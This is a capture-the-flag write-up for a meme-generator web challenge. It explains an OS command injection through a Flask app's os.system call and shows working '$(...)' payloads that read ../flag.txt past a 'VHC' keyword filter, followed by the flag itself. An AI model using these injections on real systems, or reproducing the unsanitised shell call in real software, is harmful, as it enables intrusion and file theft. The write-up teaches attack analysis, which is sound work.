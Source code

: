 # VinUni Meme Generator

Read the source ([vinuni-meme-generator.zip](src)), pwn the web, and retrieve the flag!

Challenge URL: http://ctflag.vhc.asia:52145/

## Techniques

Python, Docker, OS Command Injection

## Solution

The website just prints input text on one of its template images.

![gen 1](gen-1.png)

But does it really **just** print input text? How about typing `$(ls)`?

![gen 2](gen-2.png)

It prints out the directory of the source code, if you refer to [this](src/app)! This is an OS Command Injection attack.

The point now is how to inject a command so that it will print out the flag.

Look at the [app.py](src/app/app.py) file. When we click the `Generate` button, it sends a POST request to the backend and does the following.

```python
@app.route('/generate', methods=['POST'])
def upload():
    global clean
    if time.time() - clean > 60:
      os.system("rm static/images/*")
      clean = time.time()
    text = request.form.getlist('text')[0]
    text = text.replace("\"", "")
    filename = "".join(random.choices(chars,k=8)) + ".png"
    os.system(f"python3 generate.py {filename} \"{text}\"")
    return redirect(url_for('static', filename='images/' + filename), code=301)
```

Now open the [generate.py](src/app/generate.py) file where the meme generator does the real work! Look at these two lines.

```python
outfile = sys.argv[1]
text = sys.argv[2]
```

The arguments for the task are given in this line of [app.py](src/app/app.py).

```python
text = request.form.getlist('text')[0]
text = text.replace("\"", "")
filename = "".join(random.choices(chars,k=8)) + ".png"
os.system(f"python3 generate.py {filename} \"{text}\"")
```

The `filename` is randomly generated, while the `text` is given in the input request. This is where we add the OS command payload.

Refer to the `$(ls)` input, Python will construct the following OS command.

```
python3 generate.py randomfilename.png \"$(ls)\"
```

Therefore, we can find the file containing the flag and then print out.

Where is the flag located? Look at the [Dockerfile](src/Dockerfile) and notice.

```docker
COPY app /app
COPY flag.txt /flag.txt
WORKDIR /app
```

When building the Docker container, Docker copies files according to the instructions from the Dockerfile. Notice that the `flag.txt` file is in the parent directory of the `app` folder. Then we can `cat ../flag.txt` to retrieve the flag!

But does it work? Not that easy.

![gen 3](gen-3.png)

We haven't retrieved the flag yet, although it seems like we are nearly there.

Again, look at the [generate.py](src/app/generate.py) source code, and look at this snippet.

```python
if "VHC" in text: 
  img = Image.open("static/generator/noleak.png") 
  img.save(f"static/images/{outfile}")
else:
  img2 = Image.open('static/generator/VinMeme-Small.png')
  img.paste(img2, (0, 0), img2.convert('RGBA'))
  if len(chunks) > 1:
    img3 = Image.open("static/generator/move.png").convert('RGBA')
    img3.paste(img, (170,42), img.convert('RGBA'))
    img3.save(f"static/images/{outfile}")
  else:
    img.save(f"static/images/{outfile}")

```

If there is a `VHC` keyword in the text input, then it returns a dummy image. 

Obviously, the flag contains `VHC`. Then we only need to replace it with any phrases of our choice. We can use the Stream Editor command `sed` for that.

```
$(sed "s/VHC/ABC/g" ../flag.txt)
```

![gen 4](gen-4.png)

Yes, we have found the flag, but some parts are put behind the image. Then replace `VHC` with some longer text like this.

```
$(sed "s/VHC/ncejnvccccccdscrrevrekjnrejkvnjkern/g" ../flag.txt)
```

![gen 5](gen-5.png)

And we have obtained the full flag!

## The Flag

```
VHC2022{f1r5t_t1m3_0s_c0mm4nd_1nj3ct10n_3h}
```